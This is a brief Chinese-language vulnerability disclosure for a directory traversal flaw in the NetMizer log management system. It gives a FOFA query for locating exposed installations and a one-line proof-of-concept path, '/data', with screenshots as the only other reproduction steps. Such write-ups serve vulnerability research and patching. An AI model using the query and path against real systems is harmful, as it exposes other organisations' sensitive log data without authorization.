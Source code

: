 # NetMizer 日志管理系统 data 目录遍历漏洞

## 漏洞描述

北京灵州网络技术有限公司NetMizer日志管理系统存在目录遍历漏洞，由于 /data 控制不严格，攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
NetMizer 日志管理系统
```

## FOFA

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191757812.png)

验证POC

```
/data
```

![image-20220519175728991](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191757072.png)